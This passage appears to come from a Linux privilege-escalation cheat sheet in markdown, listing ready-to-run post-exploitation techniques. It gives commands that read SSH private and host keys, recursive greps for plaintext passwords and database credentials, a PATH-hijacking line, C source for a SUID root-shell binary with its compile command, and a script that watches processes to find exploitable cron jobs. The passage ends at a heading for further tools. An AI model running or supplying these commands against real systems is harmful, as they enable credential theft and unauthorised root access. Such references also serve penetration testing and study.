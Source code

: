 ```bash
```
### SSH Keys
 * Chek all home dirs
```bash
cat ~/.ssh/authorized_keys
cat ~/.ssh/identity.pub
cat ~/.ssh/identity
cat ~/.ssh/id_rsa.pub
cat ~/.ssh/id_rsa
cat ~/.ssh/id_dsa.pub
cat ~/.ssh/id_dsa
cat /etc/ssh/ssh_config
cat /etc/ssh/sshd_config
cat /etc/ssh/ssh_host_dsa_key.pub
cat /etc/ssh/ssh_host_dsa_key
cat /etc/ssh/ssh_host_rsa_key.pub
cat /etc/ssh/ssh_host_rsa_key
cat /etc/ssh/ssh_host_key.pub
cat /etc/ssh/ssh_host_key

```
### Bad path configuration
```bash
# Require user interaction
export PATH=/tmp' or your path file':$PATH
```
### Find plain passwords
```bash
grep -rnw '/' -ie 'pass' --color=always
grep -rnw '/' -ie 'DB_PASS' --color=always
grep -rnw '/' -ie 'DB_PASSWORD' --color=always
grep -rnw '/' -ie 'DB_USER' --color=always
```
### Scripts
#### SUID
```bash
int main(void){
  setresuid(0, 0, 0);
  system("/bin/bash");
}

# Compile
gcc suid.c -o suid
```
#### PS Monitor for cron
```bash
#!/bin/bash

# Loop by line
IFS=$'\n'

old_process=$(ps -eo command)

while true; do
	new_process=$(ps -eo command)
	diff <(echo "$old_process") <(echo "$new_process") | grep [\<\>]
	sleep 1
	old_process=$new_process
done
```
#### Linux Privesc Tools